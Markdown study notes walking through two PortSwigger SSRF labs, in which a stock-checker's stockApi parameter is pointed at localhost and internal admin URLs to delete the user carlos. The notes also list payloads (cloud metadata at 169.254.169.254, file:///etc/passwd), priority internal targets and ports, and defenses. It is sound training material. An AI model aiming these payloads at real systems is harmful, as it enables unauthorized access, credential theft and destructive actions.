


# 📘 SSRF Lab-1 (Server-Side Request Forgery) — Full Notes

## 🟪 One‑Line Summary
> **SSRF lets attackers make the server send requests to internal URLs, often bypassing authentication and gaining admin access.**

---

## 🟦 What is SSRF?
SSRF (Server-Side Request Forgery) is a vulnerability where an attacker tricks the server into sending HTTP requests on its behalf.

- Attacker CANNOT reach internal systems directly.
- But server CAN.
- So attacker forces the server to request hidden/internal URLs.

Example vulnerable parameter:
```
stockApi=http://api.company.com/check?product=1
```

If changing the URL changes what the server loads → SSRF exists.

---

## 🟥 Why SSRF Matters (Why It’s Dangerous)
With SSRF, attackers can:

- Access **internal admin panels**
- Access **internal-only microservices**
- Read **sensitive files / metadata**
- Perform **privileged actions** as the server
- Bypass authentication using `localhost`
- Potentially escalate to **RCE**

Some SSRF → complete cloud account takeover.

---

## 🟧 Real‑World Scenarios (Where SSRF Happens)
### 🏦 Banks / FinTech
Internal services:
- transaction approval
- admin dashboards
- audit logs

### 🛒 E‑Commerce (just like the lab)
- stock APIs
- pricing APIs
- /admin dashboards
- /internal-ui

### 🏥 Healthcare
- patient records
- doctor API dashboards
- lab result systems

### 🏢 Enterprise SaaS
- employee admin systems
- billing panels
- internal analytics
- feature toggles

One SSRF → unrestricted internal access.

---

## 🟥 Common SSRF Payloads
```
http://localhost/
http://127.0.0.1/
http://169.254.169.254/     # Cloud metadata
file:///etc/passwd
http://internal-service/admin
```

---

## 🔥 High‑Value Endpoints (Priority Targets in Real World)
### 🔥 Priority 1
```
/admin
/internal
/config
/debug
/system
/manage
/api/admin/
```

### 🔥 Priority 2 — Internal Ports
```
8000–9000
5000–5001
3000
15672
8080/8443
```

### 🔥 Priority 3 — Cloud Metadata
```
169.254.169.254          # AWS
169.254.169.254/computeMetadata     # GCP
169.254.169.254/metadata/identity   # Azure
```

---

## 🟩 How SSRF Works (Simple Explanation)
A feature accepts a URL from the user → backend fetches it → attacker points it to localhost/internal systems.

Example:
```
stockApi=http://localhost/admin
```

Why it works:
- many apps trust localhost
- internal admin panels often skip auth if request is internal
- backend → makes request BEFORE frontend auth checks

---

## 🟦 SSRF Loopback Attack (Against Server Itself)
Payload:
```
http://localhost/admin
```

Benefits:
- bypass login
- retrieve admin area
- perform admin actions via SSRF request

---

# 🟨 LAB WALKTHROUGH (PortSwigger Basic SSRF)

## 🎯 Goal
Use SSRF via stock checker → access admin panel → delete user **carlos**.

## ✔ Vulnerable Parameter
```
stockApi=
```

## 🛠 Steps
1. Open any product → **Check Stock**
2. Intercept request → **Send to Repeater**
3. Replace parameter:
   ```
   stockApi=http://localhost/admin
   ```
4. Send → Admin panel HTML appears (SSRF confirmed)
5. Locate delete link:
   ```
   /admin/delete?username=carlos
   ```
6. Trigger delete:
   ```
   stockApi=http://localhost/admin/delete?username=carlos
   ```
7. Send → Carlos deleted → **Lab solved**

---

## 🟫 Why This Lab Is Vulnerable
- Server accepts user-supplied URL.
- Server automatically performs internal requests.
- Auth bypass happens because localhost is trusted.
- Backend fetch happens BEFORE auth enforcement.

---

# 🖼 Evidence (Screenshot Placeholder)

### Screenshot-1
  
   (Screenshot: modified stockApi → server fetched admin HTML showing admin links.)

### Screenshot-2
  
   (Screenshot: second SSRF showing delete request/response and confirmation that carlos was removed.)   

---

# 🟩 Remediation (How to Prevent SSRF)
### ✔ Allowlist URLs (strongest)
Only allow pre-approved domains:
```
api.company.com
assets.company.com
```

### ✔ Block internal IPs
```
127.0.0.1
10.0.0.0/8
192.168.0.0/16
169.254.169.254
```

### ✔ Network-level egress filtering
- block metadata
- block internal-only ports

### ✔ Sanitize & validate URL inputs
- restrict protocols (no file://, gopher://, ftp://)
- block redirect-based SSRF
- resolve IP before allowlist check

---

# ⭐ Real‑World Flowchart (Mental Model)

> **If the app fetches a URL → you control the server’s browser → you can access everything the server can.**

---

# SSRF Lab-2 — Attacking Back-end Systems (Internal targets)

---

## 🔹 Overview
This note covers SSRF attacks targeting internal back-end systems (private IPs / non-routable hosts).  
SSRF allows an attacker to make the *server* fetch internal admin pages and APIs (e.g., http://192.168.0.68/admin) so they can view or trigger sensitive actions that are normally protected by network isolation.

> Only test these techniques on authorized labs/systems.

---

## 🔹 Short summary
SSRF makes the server (not your browser) fetch internal admin pages and APIs so you can view or trigger admin-only actions.

---

## 🔹 Why internal back-end systems are high value
- Internal services often assume local requests are trusted and skip strong auth.  
- Common targets: admin consoles, cloud metadata endpoints, DB HTTP APIs, container APIs, health/actuator endpoints.  
- Successful SSRF → credential theft, config changes, DB dumps, destructive admin actions.

---

## 🔹 Lab description (example)
The app has a stock-check feature (POST /product/stock) that accepts a stockApi URL the server will fetch.  
*Goal:* Use SSRF to fetch http://192.168.0.68/admin, find a delete link for user carlos, then invoke it via SSRF to remove the user.

---

## 🔹 High-level attack flow
1. Intercept POST /product/stock and find stockApi.  
2. Replace stockApi with internal admin URL.  
3. Inspect returned HTML and extract actionable endpoints.  
4. Put the action URL back into stockApi and send again to trigger the action.  
5. Verify the change and collect PoC.

---

## 🔹 Exact step-by-step (lab-ready)

1. *Capture the stock-check request*  
   - Intercept the request in Burp Proxy / Repeater.  
   - Example body:stockApi=http://stock.example.net:8080/product/stock/check?productId=1
2. *Confirm encoding*  
- If captured value is percent-encoded (%3A, %2F) use encoded payloads; otherwise use plain.

3. *Recon: fetch internal admin page*  
- Replace stockApi with the internal admin page:
  - Plain: stockApi=http://192.168.0.68/admin
  - Encoded: stockApi=http%3A%2F%2F192.168.0.68%2Fadmin
- Send the request and inspect the returned HTML (Raw / Elements).

  
(Screenshot 1: server fetched internal admin HTML after stockApi was set to the admin URL.)

4. *Inspect returned HTML / Elements*  
- Search for delete, username=, action=, hidden tokens, JS-generated links.  
- Copy the actionable URL (example):http://192.168.0.68:8080/admin/delete?username=carlos
  
(Screenshot 2: HTML/Elements view showing the /delete?username=carlos link.)

5. *Exploit: trigger the action via SSRF*  
- Put the full actionable URL back into stockApi (encoded if original was encoded):
  - Plain: stockApi=http://192.168.0.68:8080/admin/delete?username=carlos
  - Encoded: stockApi=http%3A%2F%2F192.168.0.68%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
- Send the request — the server will perform the delete.

  
(Screenshot 3: final SSRF request/response showing the delete action executed and confirmation.)

6. *Verify & collect evidence*  
- Fetch an admin users page via stockApi to confirm removal and save raw requests/responses and timestamps as PoC.

---

## 🔹 Example payloads (copy/paste)

*Plain*
stockApi=http://192.168.0.68/admin
stockApi=http://192.168.0.68:8080/admin/delete?username=carlos
*Encoded*
stockApi=http%3A%2F%2F192.168.0.68%2Fadmin 
stockApi=http%3A%2F%2F192.168.0.68%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
---

## 🔹 Real-world chaining & impact
- SSRF → cloud metadata (169.254.169.254) → credential theft.  
- SSRF → internal DB APIs → data exfiltration.  
- SSRF → create admin user / change config → full takeover.

---

## 🔹 Defenses & reporting
- Use allow-lists for outbound hosts and block internal ranges (127/8, 10/8, 169.254.169.254, ::1, 192.168/16).  
- Canonicalize & validate user-supplied URLs.  
- Use an egress proxy that filters outgoing requests.  
- Enforce authentication/authorization even for local requests and log outbound requests.

---

